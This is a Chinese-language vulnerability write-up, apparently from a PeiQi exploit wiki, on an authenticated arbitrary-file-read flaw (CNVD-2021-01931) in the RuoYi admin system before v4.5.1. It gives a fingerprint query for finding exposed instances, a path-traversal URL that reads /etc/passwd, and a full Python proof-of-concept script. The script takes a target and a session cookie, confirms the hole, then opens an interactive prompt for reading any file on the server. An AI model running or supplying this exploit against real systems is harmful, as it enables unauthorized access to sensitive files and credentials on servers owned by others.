

# 若依管理系统 后台任意文件读取 CNVD-2021-01931

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

```
RuoYi < v4.5.1
```

## 网络测绘

```
app="若依-管理系统"
```

## 漏洞复现

登录后台后访问 Url

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd


访问后会下载文件 **/etc/passwd**


可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息


在新版本的修复中添加了过滤


## 漏洞POC

- ✅POC使用需要后台的Cookie,读取的文件路径应为根路径


```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: RuoYi < v4.5.1                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> JSESSIONID=xxxxxx                                   \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//common/download/resource?resource=/profile/../../../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Filename = input("\033[35mFile >>> \033[0m")
                if Filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cookie, Filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie, Filename):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../{}".format(Filename)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = str(input("\033[35mCookie >>> \033[0m"))
    POC_1(target_url, Cookie)
```


